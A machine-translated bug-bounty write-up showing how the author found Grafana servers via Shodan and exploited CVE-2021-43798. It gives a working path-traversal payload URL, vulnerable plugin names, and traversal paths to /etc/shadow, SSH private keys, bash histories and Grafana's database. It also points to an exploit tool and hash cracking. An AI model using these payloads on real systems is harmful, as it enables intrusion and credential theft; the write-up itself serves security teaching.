






# 从 Shodan 呆子到 Grafana📊本地文件包含

> 原文：<https://infosecwriteups.com/from-shodan-dork-to-grafana-local-file-inclusion-e77dc4cfc264?source=collection_archive---------0----------------------->

嗨读者们📖，这是我在使用 shodan recon 和进一步开发 grafana 服务时发现的关于本地文件包含的新文章。

最后，我还将提供一个来自我的 youtube 频道的视频 POC 链接，这将有助于您更清楚地理解这一点。

**让我们开始吧，**

对于 grafana 相关的服务，我使用简单的 shodan dork

"***title:grafana hostname:target***也可以用***http . title:grafana***

结果，我在目标 IP 上运行了一个 grafana 服务。

您可以进一步使用 [**ipinfo.io**](https://ipinfo.io) 来收集更多与 IP 地址相关的信息。

现在，grafana 运行在端口 3000 上，这是该服务的常用端口，像往常一样，我检查默认凭据，但它们对我不起作用。

此外，我发现该服务运行在版本 **v8.0.4** 上，然后我查找该版本的可用 CVE，发现该版本容易受到 LFI 漏洞的攻击。

你可以在下面的样本截图底部的细节中查看版本。它是 9.2.3，但在我的例子中，版本是 8.0.4。

***注意:LFI 漏洞影响 Grafana 8.0.0-beta1 到 8.3.0***

LFI 简介:

攻击者可以使用本地文件包含(LFI)来欺骗 web 应用程序暴露或运行 web 服务器上的文件。LFI 攻击可能导致信息泄露、远程代码执行，甚至跨站点脚本。通常，当应用程序使用文件路径作为输入时，会发生 LFI。如果应用程序将此输入视为可信，则可以在 include 语句中使用本地文件。

*那么，我们来说正题，*

现在它很容易受到**CVE-2021–43798**你可以在[**https://cve.mitre.org/cgi-bin/cvename.cgi?阅读/查看有关这个 CVE 的详细信息 name = CVE-2021-43798**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798)**。**

手动，我发现 LFI 在路径 **/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..插件**警报列表**上的%2fetc/passwd**

那么完整路径就变成了 **/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/**

有效负载:[**http://target _ IP:3000/public/plugins/alert list/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/**](http://target_ip:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/)

**结果:**

但是可以有很多插件，例如

**警报列表
公告列表
grafana-azure-monitor-data source
条形图
条形标尺
cloudwatch
仪表盘列表
弹性搜索
标尺
geomap
getting started
堆栈驱动
图形
石墨
热图
直方图**

**还有更多……**

此外，除了 **/etc/passwd** 之外，还可能有更多的*路径*，如果 **/etc/passwd** 不工作，我们可能会错过其他敏感信息

例如:

**/..%2f..%2f..%2f..%2f..%2fconf/defaults.ini
/..%2f..%2f..%2f..%2f..%2fconf/grafana.ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2 fetc/grafana/grafana . ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2 fetc/grafana/defaults . ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/shadow
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome/grafana/。bash_history
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome/grafana/。ssh/id_rsa
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot/。bash_history
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot/。ssh/id_rsa
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2 fusr/local/etc/grafana/grafana . ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2f var/lib/grafana/grafana . db
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/net/fib_trie
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/net/tcp
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/self/cmdline**

所以手动地用各自的插件查找每个案例是一个漫长的过程，所以你可以编写自己的脚本来自动完成这个任务，

为了进一步自动化攻击，我在 GitHub [**上使用了一个专门为这个 CVE 制作的工具 https://GitHub . com/Pedro havay/exploit-grafana-CVE-2021-43798**](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798/blob/main/README.md)

正如我已经说过的，我们可以在另一个路径中找到更敏感的信息，也可以在 **defaults.ini** 路径中找到，此外，我能够在上述工具的帮助下破解凭证，或者，您可以使用其他工具来破解密钥，如 hashcat 或 john the ripper。

**破解密钥**

这样，漏洞的影响会增加。

**我在下面添加视频概念证明:**

**感谢您阅读文章**🤩

订阅我的 youtube 频道寻找 bug 相关的东西: [**redirect _poc**](https://www.youtube.com/channel/UCq7-Qf45etdk0qc35I_n7PQ?sub_confirmation=1)

你可以在 Instagram 上关注我 **varmaanu001**

在 Linkedin 上关注我: [**我的 _ Linkedin**](http://linkedin.com/in/anurag-verma-650b771a2)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！